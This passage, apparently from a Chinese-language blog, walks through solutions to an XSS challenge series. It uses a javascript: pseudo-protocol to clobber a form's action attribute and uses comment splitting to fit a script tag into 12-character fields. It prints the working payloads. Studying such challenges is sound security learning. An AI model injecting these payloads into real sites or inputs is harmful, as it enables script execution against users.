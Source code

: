if语句通过了，则会submit我们的action值。这里可以利用 `javascript:` js伪协议进行js代码执行，然后可以通过控制 `name` 的值，破坏窗口的action属性，进而绕过 `if`。

上测试:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
    <form action="javascript:prompt(1)" method="post"><input name="action" value="test"></form>
    <script type="text/javascript">
        alert(document.forms[0].action)
    </script>
</body>
</html>
```

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210817145123855.png)

可以发现输出了我们想要的东西。

payload:

```
javascript:prompt(1)#{"action":"Matt"}
```

------

### 0x7

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

这关限制了只能有12个字符，可以用js的多行注释来注释掉多出来的标签。

payload:

```
"><script>/*#*/prompt(1/*#*/)</script>
```

result:

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt(1/*"></p>
<p class="comment" title="*/)</script>"></p>
```
